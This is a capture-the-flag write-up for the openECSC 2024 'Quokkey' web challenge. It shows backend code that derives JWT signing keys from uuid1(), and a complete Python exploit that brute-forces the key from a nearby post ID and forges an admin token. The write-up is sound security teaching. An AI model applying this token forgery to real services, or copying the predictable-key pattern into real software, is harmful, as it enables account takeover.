

# openECSC 2024 - Final Round

## [web] Quokkey (72 solves)

Quokkey is here, let's login if you want to obtain free keys to unlock a lot of beautiful products!

username: quokka
password: quokka

Site: [http://quokkey.challs.open.ecsc2024.it](http://quokkey.challs.open.ecsc2024.it)

Author: Vittorio Mignini <@M1gnus>

## Overview

The challenge consists in a webapp offering free keys to activate a variety of products, by using the provided low privileged credentials a page shows us some posts, describing a license key for a product, or a login performed using our credentials:


If the page `/superkey` is visited, then a message saying that we're not the admin appears:


## Solution

Post ids are really similar:



by looking at backend's source code we see that they're UUIDv1:
```py
@app.post("/session")
def create_session():
    body = request.json
    if body["username"] != "quokka" or body["password"] != "quokka":
        return "", 401

    pid, skey = (uuid1() for _ in range(2))
    sid = os.urandom(24).hex()
    app.logger.info(f"NEW SESSION: PID={pid}, SKEY={skey}")

    jwt_body = {
        "user": "quokka",
        "propic": url_for("static", filename="propic.png"),
    }
    encoded_jwt = jwt.encode(jwt_body, skey.bytes, algorithm="HS256")

    keys.insert_one(vars(Key(
        sid,
        skey.bytes,
    )))
    posts.insert_one(vars(Post(
        str(pid),
        encoded_jwt,
        "new login",
        f"user quokka logged in at {datetime.now()}"
    )))

    response = make_response()
    response.set_cookie("session_jwt", encoded_jwt, httponly=False)
    response.set_cookie("session_id", sid, httponly=False)

    return response
```

When a session is created both the session key, used to sign the session jwt and the id related to the post which logs the sign in operation are generated using `uuid1()` almost simultaneously.

even if UUIDv1s grant the uniqueness of the identifiers they're easy to predict, especially if generated in a short amount of time from each other:

```
>>> from uuid import uuid1
>>> [uuid1() for _ in range(2)]
[UUID('1f6085fc-54b8-11ef-a5d4-0242ac110002'), UUID('1f60894e-54b8-11ef-a5d4-0242ac110002')]
```

The only difference between the id of the post which logs the sign in operation and the related session key is 2 bytes, which can be brute forced offline using a simple python script.

Once brute forced the key the flag can be obtained by signing a JWT containing the key-value pair `{"user": "admin"}` and using it as the value of `session_jwt` cookie while performing a request to `/api/v1/superkey`:


## Exploit

```py
import requests
import jwt
import re
from uuid import UUID


FLAG_RE = re.compile(r"(openECSC\{.+\})")
BASE_URL = "http://quokkey.challs.open.ecsc2024.it/api/v1"
LOGIN_PAYLOAD = {
    "username": "quokka",
    "password": "quokka",
}


s = requests.Session()
s.post(f"{BASE_URL}/session", json=LOGIN_PAYLOAD)

session_jwt = s.cookies.get("session_jwt")
session_id = s.cookies.get("session_id")
jwt_body = jwt.decode(session_jwt, options={"verify_signature": False})
posts = [p for p in s.get(f"{BASE_URL}/posts").json() if p["title"] == "new login"]
pid = posts[0]["id"]
print(f"LOGIN POST ID: {pid}")

pid1, pid2, pid3 = pid[:4], int(pid[4:8], 16), pid[8:]
while pid2 < 0xffff:
    pid2 += 1
    sid = UUID(f"{pid1}{pid2.to_bytes(2, 'big').hex()}{pid3}", version=1)
    encoded = jwt.encode(jwt_body, sid.bytes, algorithm="HS256")
    if encoded == session_jwt:
        print(f"FOUND KEY: {sid.bytes}")
        break

jwt_body["user"] = "admin"
session_jwt = jwt.encode(jwt_body, sid.bytes, algorithm="HS256")

s.cookies.clear()
s.cookies.set("session_jwt", session_jwt)
s.cookies.set("session_id", session_id)

flag = s.get(f"{BASE_URL}/superkey").json()["msg"]
print(f"FLAG: {FLAG_RE.search(flag).group(1)}")
```